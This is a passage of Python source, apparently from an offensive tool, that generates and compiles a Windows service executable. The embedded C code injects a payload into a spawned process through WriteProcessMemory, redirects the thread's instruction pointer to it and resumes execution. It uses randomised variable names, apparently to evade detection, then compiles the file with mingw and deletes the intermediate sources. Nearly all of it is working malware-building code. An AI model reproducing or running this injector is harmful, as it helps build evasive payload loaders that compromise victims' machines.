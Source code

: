```python
				WriteProcessMemory( pi.hProcess, """+randlpPayload+""", &"""+randdate+""", """+randbuff+""", NULL );
#ifdef _WIN64
				Context.Rip = (DWORD64)"""+randlpPayload+""";
#else
				Context.Eip = (DWORD)"""+randlpPayload+""";
#endif
				SetThreadContext( pi.hThread, &Context );
			}
			ResumeThread( pi.hThread );
			CloseHandle( pi.hThread );
			CloseHandle( pi.hProcess );
		}
		ServiceHandler( SERVICE_CONTROL_STOP );
		ExitProcess( 0 );
	}
}
int __stdcall WinMain( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow )
{
	SERVICE_TABLE_ENTRY st[] =
    {
        { (LPSTR)&cServiceName, (LPSERVICE_MAIN_FUNCTIONA)&ServiceMain },
        { NULL, NULL }
    };
	return StartServiceCtrlDispatcher( (SERVICE_TABLE_ENTRY *)&st );
}
"""
print "█ "+G+"Writing to C File"+W+"..."+W
fout = open("wrap.c", "w")
fout.write(s)
fout.close()

print "█ "+G+"Compiling Windows Service Executable..:"+W+" "+ExecutableName+W
os.system("i686-w64-mingw32-gcc wrap.c -o "+ExecutableName)

print "█ "+G+"Cleaning up"+W+"..."+W
os.system("rm wrap.c | rm payload.c")
print "█ "+G+"FINISHED"+W+"..."+W
```
